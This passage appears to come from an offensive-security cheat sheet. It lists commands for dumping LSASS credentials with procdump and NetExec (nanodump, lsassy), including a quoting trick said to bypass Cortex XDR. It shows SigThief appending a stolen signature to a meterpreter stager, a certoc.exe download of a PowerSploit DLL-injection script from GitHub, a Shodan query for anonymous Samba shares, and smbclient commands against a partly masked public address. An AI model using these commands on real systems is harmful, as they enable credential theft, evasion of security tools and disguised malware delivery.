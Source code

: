 Depending on the EDR, it may be sufficient to simply add quotations around the process name (This bypasses Cortex XDR for example):

```
procdump.exe -accepteula -ma “lsass.exe” out.dmp
```

## Dumping LSASS With NetExec

Using Lsassy and Nanodump:
```
nxc smb 192.168.255.131 -u administrator -p pass -M nanodump
```

```
nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
```

## Stealing Signatures with SigThief

Download: https://github.com/secretsquirrel/SigThief

Rips a signature off a signed PE file and appends it to another one, fixing up the certificate table to sign the file.

```
$ ./sigthief.py -i procmon.exe -t x86_meterpreter_stager.exe -o /tmp/definitely_legit.exe 

Output file: /tmp/definitely_legit.exe 
Signature appended. 
FIN.
```
## CertOC Downloads

Downloads text formatted files

```
certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
```
## Shodan for SMB

SMB ( Server Message Block ) authentication without credentials, also known as anonymous SMB access, allows users to access shared resources on a network without providing username or passwords. This can be useful for accessing shared folders that have been configured to allow anonymous access.

```
"Authentication: disabled" port:445 product:"Samba" 
```

```
smbclient -L //200.x.x.29/ -N  
smbclient //200.x.x.29/info
```

## Plundering Account Information with RPCClient and SMBClient
